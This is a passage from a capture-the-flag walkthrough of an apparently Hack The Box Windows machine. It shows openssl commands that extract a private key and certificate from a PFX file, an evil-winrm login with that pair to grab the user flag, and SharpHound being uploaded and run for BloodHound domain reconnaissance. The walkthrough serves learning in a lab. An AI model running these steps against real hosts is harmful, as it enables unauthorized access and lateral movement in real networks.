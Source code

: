 Now, we can try again to extract the certificate and decrypt the key. As the above [link ](https://www.ibm.com/docs/en/arl/9.7?topic=certification-extracting-certificate-keys-from-pfx-file)mentions, the PEM pass phrase is set by us and later used to decrypt the key. It can be anything as long as it is ≥ than 4 characters.

{% code overflow="wrap" %}
```bash
# extracting the key and setting a PEM pass phrase
openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out legacyy_dev_auth.key-enc
Enter Import Password:
Enter PEM pass phrase:
Verifying - Enter PEM pass phrase:
# decrypting the key using the PEM pass phrase we set above
openssl rsa -in legacyy_dev_auth.key-enc -out legacyy_dev_auth.key
Enter pass phrase for legacyy_dev_auth.key-enc:
writing RSA key
# extracting the certificate
openssl pkcs12 -in legacyy_dev_auth.pfx -clcerts -nokeys -out legacyy_dev_auth.crt
Enter Import Password:
# checking the everything is there
ls legacyy_dev_auth.*
legacyy_dev_auth.crt  legacyy_dev_auth.key  legacyy_dev_auth.key-enc  legacyy_dev_auth.pfx
```
{% endcode %}

Now, we can use the certificate and the key files to access the target host via WinRM and grab the user flag 🚩(Figure 7).

```bash
evil-winrm -i 10.10.11.152 -S -k legacyy_dev_auth.key -c legacyy_dev_auth.crt
```

<figure><img src="../../.gitbook/assets/timelapse_winrm.png" alt=""><figcaption><p>Figure 7: Logging into the box via WinRM using a key and certificate pair.</p></figcaption></figure>

## EoP[^12]

### Sniffing Paths

The first thing we always do when we get our foothold is to collect domain information and analyze it using [BloodHound](../../tools/active-directory/bloodhound.md) (Figure 8).

```powershell
# upload binary to the target host
upload SharpHound.exe
# collect domain information
.\SharpHound.exe -c all
# list directory's content
dir
# download the generated zip file to the attack host
download 20240415192438_BloodHound.zip
```


[^1]: Local Administrator Password Solution
[^2]: Server Message Block
[^3]: Living Off The Land
[^4]: Elevation of Privileges
[^5]: Elevation of Privileges
[^6]: Domain Controller
[^7]: Windows Remote Management
[^8]: Server Message Block
[^9]: Fully Qualified Domain Name
[^10]: Local Administrator Password Solution
[^11]: Personal Information Exchange
[^12]: Elevation of Privileges
[^13]: Local Administrator Password Solution&#x20;
[^14]: Active Directory